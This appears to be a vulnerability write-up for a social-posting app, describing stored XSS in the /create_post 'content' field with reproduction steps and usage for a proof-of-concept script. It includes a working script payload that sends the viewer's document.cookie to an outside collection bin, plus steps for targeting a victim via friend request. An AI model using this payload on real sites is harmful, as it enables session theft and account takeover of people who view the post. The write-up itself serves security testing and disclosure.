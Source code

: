 # Vulnerability 7: XSS in create post - content of the post can contain script which will be executed on any person viewing the post

- Vulnerability: XSS
- Where: `content` in /create_post
- Impact: Allows to run any script on person viewing the post

## Steps to reproduce

1. Create a post containing malicious script like the one below.
    If the attack is targeted the post visibility can be set to `Friends`.
    But if we want to attack everyone the post visibility can be set to `Public`.
    ```html
    <script>
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://cors-anywhere.herokuapp.com/https://postb.in/1603555839181-2461015884764", true);
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.send(JSON.stringify({
            "cookie": document.cookie
        }));
    </script>
    ```
2. If the attack is targeted - send a friend request to the victim. 
    And wait for the victim to accept the friend request.
3. When any victim opens the main page the script will be loaded as part of a post
    and will be executed. So if the script is sending data to 
    [https://postb.in](https://postb.in/1603555839181-2461015884764)
    or another server we can view the sent data there.
    

## Script usage
The script creates `postb.in` bin and sends cookies from the victim's side to the bin.
Can have both targeted (with a friend request) or attach on everyone who opens public section of posts.

```shell script
python vuln7.py <server> <target_url> <victim_username> <victim_password> <hacker_username> <hacker_password> [--attack_everyone]
python vuln7.py -h  # for more details
``` 


[(POC)](vuln7.py)
